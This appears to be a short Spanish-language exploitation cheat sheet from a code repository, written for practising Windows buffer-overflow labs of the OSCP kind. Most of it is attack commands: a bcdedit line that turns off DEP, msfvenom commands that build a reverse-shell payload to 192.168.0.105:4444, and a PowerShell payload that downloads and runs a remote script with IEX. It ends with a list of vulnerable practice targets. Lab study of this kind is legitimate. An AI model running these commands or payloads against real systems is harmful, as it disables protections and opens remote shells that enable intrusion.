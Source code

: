 
## Desactivar DEP
```
bcdedit.exe /set {current} nx AlwaysOff
```

## BYTEARRAY
```pip install badchars```
```badchars -f python```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)

-------

Brainpan                      -> Windows 7, XP sp3  
VulnSever                     -> Windows 7, XP sp3  
EasyRMtoMP3Converter2.7.3.700 -> Windows XP sp3  
CloudMe                       -> Windows 7  
oscp THM                      -> Windows 7, XP sp3  
SoritongMP3Player             -> Windows XP sp3  

